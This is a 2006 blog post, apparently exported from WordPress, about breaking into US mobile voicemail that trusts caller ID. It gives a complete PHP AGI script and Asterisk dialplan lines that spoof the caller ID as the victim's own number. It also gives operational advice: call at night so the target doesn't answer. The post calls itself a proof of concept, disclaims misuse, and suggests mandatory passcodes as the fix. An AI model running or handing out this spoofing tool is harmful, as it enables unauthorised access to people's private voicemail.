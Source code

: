 ```yaml
--- 
wordpress_id: 1352
layout: post
title: Hacking mobile voicemail with Asterisk and caller ID spoofing
date: 2006-09-24 23:36:16 -05:00
tags: technology, technology
wordpress_url: http://www.nata2.org/2006/09/24/hacking-voicemail-with-asterisk-and-caller-id-spoofing/
---
```

So there has always had a problem with US mobile providers having their voicemail be susceptible to being compromised by calling with a spoofed caller id. Apparently most providers caller id apps just checks the referring callerid - and doesn't force the voicemail user to pick a passcode; so it allows someone to trick the voicemail app into believing they are calling from a trusted number.

This has been covered all <a href="http://www.toast442.org/C662738431/E680925937/index.html">over the</a> <a href="http://www.i-hacked.com/content/view/124/47">Internet</a> and was in the <a href="http://www.macdevcenter.com/pub/a/mac/2005/01/01/paris.html">spotlight</a> awhile back when it was alleged that this was how <a href="http://blog.tmcnet.com/blog/tom-keating/mobile-phones/paris-hilton-hacks-voicemail-using-asterisk.asp">Paris Hilton's mobile phone was hacked</a>. It is a pretty big problem and is probably really easy to fix.

So, just to make things funnier - I decided that I would release a snippit of code that would make it easier to execute this hack.
<blockquote>#!/asterisk/php/bin/php -q
&lt;?

set_time_limit(30); //make sure the php script doesn't time out
require('phpagi.php'); // include the phpagi class
error_reporting(E_ALL);  // limit the errors

$agi = new AGI(); // instantiate the AGI class
$agi-&gt;answer(); // answer the phone
sleep(2); // wait a sec or two

$agi-&gt;stream_file('enter_spoof'); // speak a wav file that says "enter the number"
$result = $agi-&gt;get_data('beep', 3000, 10); // beep and grab the 10 numbers
$agi-&gt;verbose("Number to call:".$result['result']); // throw info so you know whats up
$agi-&gt;set_callerid($result['result']); // set caller id to the number you are calling
$agi-&gt;exec("Dial IAX2/iax-provider/1".$result['result']); // call the number

?&gt;</blockquote>
You can add this to your /var/lib/asterisk/agi-bin dir and then specify the extension you want to use to dial and execute the php/agi script
<blockquote>exten =&gt; 666,1,Answer
exten =&gt; 666,2,AGI(tmobilevoicemail_spoof.php)
exten =&gt; 666,3,Hangup</blockquote>
Then when you dial 666  it executes the script. It will ask you what number to dial then dial it after setting the caller id to the same number. It will dial the number and then ring the phone. If the phone is on and the target number is answered - it won't work; however if the person doesn't answer you will be placed in the targets voicemail as a trusted user. So, I would suggest calling people in the middle of the night or when you know they will not answer. Wait.. I actually wouldn't suggest calling anyone but yourself.

It seems to me that the only viable solution that will be compatible with all phones, people and providers is to force the users to choose passcode to your voicemail.

This is - of course - a proof of concept. You should not actually hack peoples voicemails. That is not very nice.  We are into being nice.

Also, check out my <a href="http://www.nata2.org/2006/02/14/caller-id-spoofing-with-php-and-asterisk/">previous entry on caller id spoofing</a>.

